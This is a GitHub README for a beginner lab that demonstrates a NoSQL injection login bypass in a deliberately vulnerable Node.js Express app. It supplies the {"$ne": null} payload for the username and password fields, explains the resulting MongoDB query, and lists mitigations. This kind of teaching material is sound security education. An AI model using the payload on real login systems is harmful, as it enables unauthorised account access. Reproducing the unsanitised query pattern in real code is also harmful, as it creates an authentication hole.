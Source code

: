 # 🔓 NoSQL Injection Authentication Bypass

A beginner-friendly demonstration of bypassing login authentication using NoSQL injection techniques in a Node.js Express app.

---

## 🛠 Requirements

- Node.js
- Express.js
- EJS

Install dependencies:
```bash
npm install
```

Run the app:
```bash
node app.js
```

Visit: [http://localhost:3000](http://localhost:3000)

---

## 🐱‍💻 Normal Login

Try with:

```
Username: admin
Password: admin123
```

---

## 💣 NoSQL Injection Payload

Now try login with:

```
Username: {"$ne": null}
Password: {"$ne": null}
```

This payload will match any user where the `username` and `password` are "not equal to null".

---

## 🧠 Why This Works

This simulates how MongoDB queries are evaluated. For example:

```javascript
db.users.find({ username: { "$ne": null }, password: { "$ne": null } })
```

This will return all users, allowing the attacker to bypass authentication.

---

## 🛡️ Mitigation

- Use **input validation** and sanitization libraries like `express-validator`
- Use ORMs like Mongoose that escape values safely
- Never trust user input blindly!

---

## 📁 Author

Rony Khan – [GitHub Profile](https://github.com/Rony4500)
